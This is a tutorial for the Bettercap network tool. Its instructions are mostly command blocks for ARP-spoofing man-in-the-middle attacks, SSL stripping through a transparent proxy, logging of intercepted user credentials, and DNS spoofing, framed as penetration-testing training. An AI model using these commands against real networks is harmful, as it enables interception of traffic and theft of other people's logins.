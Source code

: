.. title:: A Comprehensive Guide to Bettercap

Introduction
============

Bettercap is a versatile and powerful network tool used for network monitoring, MITM (Man-in-the-Middle) attacks, and network penetration testing. It provides a wide range of functionalities to analyze and manipulate network traffic. In this guide, we will explore Bettercap in detail, covering its features, installation, basic usage, and examples.

Installation
============

To use Bettercap, you need to install it on your system. The installation process may vary depending on your operating system. Here are the general steps:

1. **Installation on Linux**:

   - On Debian/Ubuntu-based systems:

     .. code-block:: bash

        sudo apt-get install bettercap

   - On CentOS/RHEL-based systems:

     .. code-block:: bash

        sudo yum install bettercap

2. **Installation on macOS** (using Homebrew):

   .. code-block:: bash

      brew install bettercap

Basic Usage
===========

Bettercap offers a wide range of modules and functionalities for network analysis and manipulation. Here are some essential components and basic usage:

1. **Starting Bettercap**:

   .. code-block:: bash

      sudo bettercap

2. **MITM Attack with ARP Spoofing**:

   .. code-block:: bash

      net.probe on
      net.sniff on
      set arp.spoof.targets <target-IP>
      arp.spoof on

3. **HTTP and HTTPS Proxy**:

   .. code-block:: bash

      set http.proxy.sslstrip true
      set http.proxy.sslstrip.upgrade_insecure_requests true
      set http.proxy.sslstrip.transparent true
      set http.proxy.address <proxy-IP>
      set http.proxy.port <proxy-port>
      http.proxy on

4. **Capturing Credentials**:

   .. code-block:: bash

      set events.stream.output <output-file>
      events.stream on
      set http.proxy.sslstrip.logcreds true

5. **DNS Spoofing**:

   .. code-block:: bash

      set dns.spoof.domains <domain>
      dns.spoof on

Examples
========

Example 1: ARP Spoofing Attack
-------------------------------

1. Start Bettercap:

   .. code-block:: bash

      sudo bettercap

2. Enable ARP spoofing:

   .. code-block:: bash

      net.probe on
      net.sniff on
      set arp.spoof.targets <target-IP>
      arp.spoof on

Example 2: HTTPS Proxy with Credential Capture
------------------------------------------------

1. Start Bettercap:

   .. code-block:: bash

      sudo bettercap

2. Configure the HTTPS proxy and credential capture:

   .. code-block:: bash

      set http.proxy.sslstrip true
      set http.proxy.sslstrip.upgrade_insecure_requests true
      set http.proxy.sslstrip.transparent true
      set http.proxy.address <proxy-IP>
      set http.proxy.port <proxy-port>
      http.proxy on
      set events.stream.output <output-file>
      events.stream on
      set http.proxy.sslstrip.logcreds true

3. Users connecting through the proxy will have their credentials logged.

Conclusion
==========

Bettercap is a powerful tool for network analysis, monitoring, and security testing. It offers various modules and functionalities for a wide range of network-related tasks. However, it is essential to use Bettercap responsibly and within the legal boundaries of your jurisdiction.

This guide has provided an overview of Bettercap, including installation, basic usage, and practical examples. Continue learning and exploring its capabilities to improve your network security and penetration testing skills.
